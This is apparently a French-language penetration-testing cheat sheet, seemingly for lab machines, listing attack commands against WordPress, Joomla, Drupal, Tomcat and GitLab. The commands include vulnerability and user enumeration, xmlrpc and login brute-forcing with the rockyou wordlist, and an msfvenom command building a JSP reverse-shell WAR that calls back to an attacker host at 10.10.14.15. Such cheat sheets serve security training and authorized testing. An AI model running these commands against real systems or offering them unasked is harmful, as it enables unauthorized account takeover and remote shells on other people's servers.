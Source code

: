 
# WordPress

```bash
sudo wpscan --url http://<machine_ip> --e --api-token 'jjj' 
sudo wpscan --password-attack xmlrpc -t 20 -U user -P /usr/share/wordlists/rockyou.txt --url http://<machine_ip>
```

- Liste plugins :  
https://github.com/Perfectdotexe/WordPress-Plugins-List/blob/master/plugins.txt

# Joomla

```bash
plugins/system/cache/cache.xml
administrator/index.php

droopescan scan joomla --url http://<machine_ip>/
python joomlascan.py -u http://<machine_ip>
python joomla-brute.py -u http://<machine_ip> -w rockyou.txt -usr admin
```

# Drupal

```bash
CHANGELOG.txt
README.txt
```

```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

# Tomcat

```bash
/docs
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=1234 -f war > backup.war
```

# GitLab

```bash
/help
./gitlab_userenum.sh --url http://gitlab.machine.com:8081/ --userlist users.txt